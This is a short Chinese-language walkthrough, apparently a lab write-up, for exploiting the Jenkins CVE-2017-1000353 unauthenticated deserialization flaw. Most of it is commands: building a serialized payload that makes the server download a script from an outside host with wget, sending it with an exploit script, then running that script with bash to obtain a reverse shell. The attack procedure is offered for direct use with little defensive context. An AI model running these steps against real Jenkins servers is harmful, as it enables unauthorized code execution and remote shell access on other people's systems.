 # CVE-2017-1000353



## 一、漏洞描述

Jenkins 未授权远程代码执行漏洞, 允许攻击者将序列化的Java SignedObject对象传输给Jenkins CLI处理，反序列化ObjectInputStream作为Command对象，这将绕过基于黑名单的保护机制, 导致代码执行。

## 二、利用流程

1 对应环境为Jenkins远程代码执行漏洞(CVE-2017-1000353）

![](C:\Users\he\Desktop\mk\6-22\CVE-2017-1000353\1.png)

2 利用工具https://github.com/vulhub/CVE-2017-1000353

3 执行命令生成字节码文件，“ ”处填可反弹shell文件地址

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "wget 1.1.1.1/nc.py -P /tmp"
```

4 发送数据包，执行命令，使文件下载到服务器

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

![](C:\Users\he\Desktop\mk\6-22\CVE-2017-1000353\2.png)

5 生成字节码文件，“ ”处填写要执行的脚本

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "/bin/bash /tmp/nc.py"
```

6 发送数据包，执行脚本

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

7 可反弹shell

